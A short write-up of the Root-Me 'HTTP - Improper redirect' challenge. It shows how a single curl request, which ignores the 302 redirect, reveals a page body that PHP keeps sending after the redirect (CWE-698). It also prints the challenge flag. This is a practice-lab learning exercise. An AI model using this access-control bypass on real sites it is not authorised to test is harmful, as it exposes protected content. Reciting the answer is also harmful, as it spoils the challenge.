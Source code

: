 ```yaml
---
title: HTTP - Improper redirect
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect)

## Statement

> Get access to index.

### Hint:

> Don’t trust your browser

## Solution

```sh
curl -i http://challenge01.root-me.org/web-serveur/ch32/index.php
```

```http
HTTP/1.1 302 Found
Server: nginx
Date: Wed, 12 Jul 2023 02:58:21 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: ./login.php?redirect
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<h1>Welcome !</h1>

<p>Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...</p>
<p><a href="http://cwe.mitre.org/data/definitions/698.html">CWE-698: Execution After Redirect (EAR)</a></p>
<p>The flag is : ExecutionAfterRedirectIsBad
</p>
</body>
</html>
```

The flag is
```
ExecutionAfterRedirectIsBad
```

> **Note** the browser wont show body when it gets the 302.
{: .prompt-info }